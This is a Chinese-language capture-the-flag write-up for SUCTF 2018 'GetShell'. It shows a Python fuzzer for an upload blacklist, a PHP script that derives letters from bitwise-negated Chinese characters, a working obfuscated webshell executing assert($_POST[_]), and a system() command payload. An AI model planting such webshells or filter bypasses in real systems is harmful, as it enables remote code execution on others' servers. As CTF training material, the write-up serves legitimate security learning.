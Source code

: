 # [SUCTF 2018]GetShell

## 知识点

`文件上传汉字取反绕过`

## 解题

进入首页没发现什么东西

![](./img/[SUCTF2018]GetShell-1.png)

查看源码发现链接

![](./img/[SUCTF2018]GetShell-2.png)

进入页面后如图

![](./img/[SUCTF2018]GetShell-3.png)

意思就是内容从第`5`位开始解析，如果在黑名单则返回`illegal char`

`fuzz`一下，[python fuzz脚本](Scripts/upload_file_fuzz.py)

```python
import requests
import time

printer_chars = [chr(i) for i in range(33, 127)]    # 可打印字符组

url = 'http://1d0510b4-e285-46ad-92ae-87a8dc851d38.node5.buuoj.cn:81/index.php?act=upload'

def upload_file_fuzz(fuzz_dict):
    for char in printer_chars:
        resp = requests.post(url, files={'file': ('demo.txt', ('12345' + char).encode())}, timeout=8)
        time.sleep(0.19)        # 尽量设置时间不要太过
        # print(resp.text)
        if 'illegal char' not in resp.text:
            print(f"字符可用 ===> {char}")

if __name__ == '__main__':
    upload_file_fuzz(printer_chars)
```

运行结果为

![](./img/[SUCTF2018]GetShell-4.png)

发现`$`、`(`,`)`、`.`、`;`、`=`、`[`、`]`、`_`、`~`可通过，汉字也可以

使用取反汉字绕过

```php
<?php
echo 'PHP Version: ' . phpversion() . "\n";

$a = ~'垂';
echo $a . "\n";
echo $a[1];
```

![](./img/[SUCTF2018]GetShell-5.png)

可以利用这个原理，构造`assert($_POST[_])`

```php
<?php
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');

function str_split_unicode($str, $l = 0) {
    if ($l > 0) {
        $ret = array();
        $len = mb_strlen($str, "UTF-8");
        for ($i = 0; $i < $len; $i += $l) {
            $ret[] = mb_substr($str, $i, $l, "UTF-8");
        }
        return $ret;
    }
    return preg_split("//u", $str, -1, PREG_SPLIT_NO_EMPTY);
}

$s = '你归来是诗离去成词且笑风尘不敢造次我糟糠能食粗衣也认煮酒话桑不敢相思你终会遇见这么一个人他会用整个人生将你精心收藏用漫长岁月把你妥善安放怕什么岁月漫长你心地善良,终会有一人陪你骑马喝酒走四方为你唱一首歌歌中有你亦有我我的泪我的魅将都融入到我的歌声里飘向孤独的你你是否听到了我的歌曲是否也在黯然落泪？岁月匆匆人生漫漫漠视了真情谁是站谁的谁已经变得不重要至少曾经已拥有长相思爱相随时空隔离谁相陪？花前月下心随风相思一片梦成空笑看往事红尘中多少凝思付清秋？长相思泪相随曾经谁是谁的谁？孤星冷月泪盈盈念曾经相逢心长时光短让人垂泪到天明长相思苦相随窗前双燕比翼飞日暮情人成双对于时光无垠的田野中没有早一步也没有晚一步恰好遇见了想要遇见的人这是一段多少美丽而令人心动的尘缘于爱情来说相见恨早会恨晚站会留下梨花带雨的疼痛而于友情来说无论太早或者太迟都是一份值得珍惜的情缘晚秋缓缓走晚了我的轮回疏雨一刻半疏笼起我深深的梦馀昨日遗憾寸寸疏雨挑涸泪烛落笔无处飒晚秋彼晚秋未晚懒我疏雨疏风去归我初心还我清梦唯我在晚秋未晚里守望那疏雨半疏的麦田待下一片梧桐叶复舞我亦拾起我的旧梦旧梦清寒一枕乱我眸中晚秋躞蹀的雨疏疏拍窗我的晚秋疏雨半疏疏开昨日我的梦情缘如海深邃澈蓝干涸成妄谈一湛清湖泪潸然一颦寒眉锁阑珊只为你而欣悦只因你而清泪斑斑你是我的前世吧为何沁泊在我的心怀缱绻起涟波千层驻我心扉知我情怀从此我已习惯你的嘘寒问暖懒倦地痴卧在你的胸怀红霞满腮昨天再苦都要用今天的微笑把它吟咏成一段幸福的记忆；曾经再累都要用当站下的遗忘穿越万道红尘让心波澜不惊人生最大的荣耀不在于从不跌倒而在于每一次跌倒后都能爬起来回忆是件很累的事就像失眠时怎么躺都不对的样子有时候往往直到离开在回忆里才能知道自己有多喜欢一座城';

$arr_str=str_split_unicode($s);

$shell = "assertPOST";

for ($i=0; $i < strlen($shell); $i++) {
    for ($j=0; $j < strlen($s) ; $j++) {
        if ($shell[$i] === ~$arr_str[$j][1]) {      # 获取a对应的取反汉字
            echo $arr_str[$j].' ==> '.~$arr_str[$j][1] . "\n";
            break;                                  # 获取到汉字则结束循环，顺序输出
        }
    }
}
?>
```

![](./img/[SUCTF2018]GetShell-6.png)

运行后获得取反结果，编写`webshell`,[取反绕过webshell脚本](./Scripts/reverse_chinese.php)

```php
<?php

error_reporting(0);

$__ = [];
$_ = ($__ == $__);   // $_ = 1

$__ = ~(融);
$___ = $__[$_];  // a
$__ = ~(匆);
$___ .= $__[$_];  // as
$__ = ~(匆);
$___ .= $__[$_];  // ass
$__ = ~(的);
$___ .= $__[$_];  // asse
$__ = ~(半);
$___ .= $__[$_];  // asser
$__ = ~(独);
$___ .= $__[$_];  // assert

$____ = ~(~(_));    // _
$__ = ~(诗);
$____ .= $__[$_];    // P
$__ = ~(尘);
$____ .= $__[$_];    // PO
$__ = ~(笑);
$____ .= $__[$_];    // POS
$__ = ~(站);
$____ .= $__[$_];    // POST

$_ = $$____; // $_POST
$___($_[_]);    // assert($_POST[_])
```

去掉文件内容中所有的空格和注释，得到[去除注释和空格的webshell](./Scripts/clear_reverse_chinese.php)

```php
<?php
$__=[];
$_=($__==$__);
$__=~(融);
$___=$__[$_];
$__=~(匆);
$___.=$__[$_];
$__=~(匆);
$___.=$__[$_];
$__=~(的);
$___.=$__[$_];
$__=~(半);
$___.=$__[$_];
$__=~(独);
$___.=$__[$_];
$____=~(~(_));
$__=~(诗);
$____.=$__[$_];
$__=~(尘);
$____.=$__[$_];
$__=~(笑);
$____.=$__[$_];
$__=~(站);
$____.=$__[$_];
$_=$$____;
$___($_[_]);
```

最后上传`webshell`，[上传webshell的python脚本](./Scripts/upload_reverse_chinese.py)

![](./img/[SUCTF2018]GetShell-7.png)

![](./img/[SUCTF2018]GetShell-8.png)

因为`ls /`不能用，但`ls`可以，使用`cd /;ls`

```bash
_=system("cd /;ls;cat Th1s_14_f14g;")
```

发现是假的`flag`，看看`env`

![](./img/[SUCTF2018]GetShell-9.png)

在`env`发现`flag`

![](./img/[SUCTF2018]GetShell-10.png)